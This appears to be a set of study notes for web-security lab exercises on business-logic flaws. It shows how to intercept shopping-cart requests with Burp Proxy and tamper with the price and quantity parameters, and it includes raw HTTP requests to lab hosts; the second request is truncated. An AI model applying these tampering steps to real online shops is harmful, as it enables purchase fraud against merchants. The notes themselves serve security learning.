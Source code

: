 ## Excessive trust in client-side controls

1. **Validate User Input**
   
   EX:
   
   if you buy a thing from site and didn't validate the price of this product 
   
   then you can use burp proxy and change the `price` parameter of this product before you buying it
   
   ```log
   POST /cart HTTP/2
   Host: 0afc00b60407046780f3a4ce003a0023.web-security-academy.net
   Cookie: session=GSjb9epPet3jAPWlTIQWXL6bCNxLm6yC
   User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Language: en-US,en;q=0.5
   Accept-Encoding: gzip, deflate
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 49
   Origin: https://0afc00b60407046780f3a4ce003a0023.web-security-academy.net
   Referer: https://0afc00b60407046780f3a4ce003a0023.web-security-academy.net/product?productId=1
   Upgrade-Insecure-Requests: 1
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: same-origin
   Sec-Fetch-User: ?1
   Te: trailers
   
   productId=1&redir=PRODUCT&quantity=1&price=133700
   ```

2. **Failing to handle unconventional input**
   
   By observing the application's response, you should try and answer the following questions:
   
   - Are there any limits that are imposed on the data?
   
   - What happens when you reach those limits?
   
   - Is any transformation or normalization being performed on your input?

If you buy a thing from site and didn't validate the `type` of `quantity` Number of this product then you can use burp proxy and change the `quantity` parameter of this product before you buying it and when you Press `Place Order`  to buy this order this error massage is showen `Cart total price cannot be less than zero` because the `Total price : $-1337.00` is `Negative Number` then add any product normaly in the list to make the `Total price : $-1337.00 + 500 + 500 + 300 + 30 = $7.00` Then You Can buy this order with \$7

```log
POST /cart HTTP/2
Host: 0a66000c030bb2e780abf9a6003c005b.web-security-academy.net
Cookie: session=cHRDQ59zMG0cODe3LsUoSpu4eWMxLick
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 36
Origin: https://0a66000c030bb2e780abf9a6003c005b.web-security-academy.net
Referer: https://0a66000c030bb2e780abf9a6003c005b.web-security-academy.net/product?productId=1
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailer

```